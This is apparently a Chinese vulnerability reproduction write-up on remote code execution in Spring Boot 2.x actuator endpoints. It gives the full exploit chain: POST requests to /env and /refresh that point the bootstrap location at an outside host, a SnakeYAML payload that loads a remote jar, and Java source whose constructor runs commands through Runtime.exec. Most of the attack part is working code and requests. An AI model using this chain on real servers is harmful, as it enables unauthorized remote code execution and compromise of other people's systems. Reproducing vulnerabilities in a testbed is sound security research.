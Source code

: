 # Spring Boot 修改环境属性导致的rce

### 一、漏洞简介

### 二、漏洞影响

Spring Boot 2.x

### 三、复现过程

环境下载 https://github.com/ianxtianxt/actuator-testbed


```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
 
spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml
```

该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“ / refresh”端点。


```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：


```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了**'java.util.ServiceLoader＃load（java.lang.Class ，java.lang.ClassLoader）'**方法，该方法试图在所有库中查找'ScriptEngineFactory'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的'ScriptEngineFactory'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。


```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
 
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
```
        
`https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory`应该只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：artsploit.AwesomeScriptEngineFactory同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用